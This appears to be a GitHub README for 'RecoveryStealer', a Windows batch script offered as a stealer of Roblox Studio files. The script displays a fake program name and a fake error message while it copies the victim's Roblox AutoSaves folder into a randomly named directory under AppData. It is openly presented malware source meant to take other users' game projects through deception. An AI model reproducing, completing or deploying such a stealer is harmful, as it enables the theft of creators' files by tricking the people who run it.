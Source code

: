# RecoveryStealer
Roblox Studio Files Recovery Stealer.
## Requirements 
Windows 10 or higher 
### Source
\```bash
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
\```
> fakename: variable which is displays program name.
> errorstr: variable which is displays error string.
> rn: random number.
> user: username
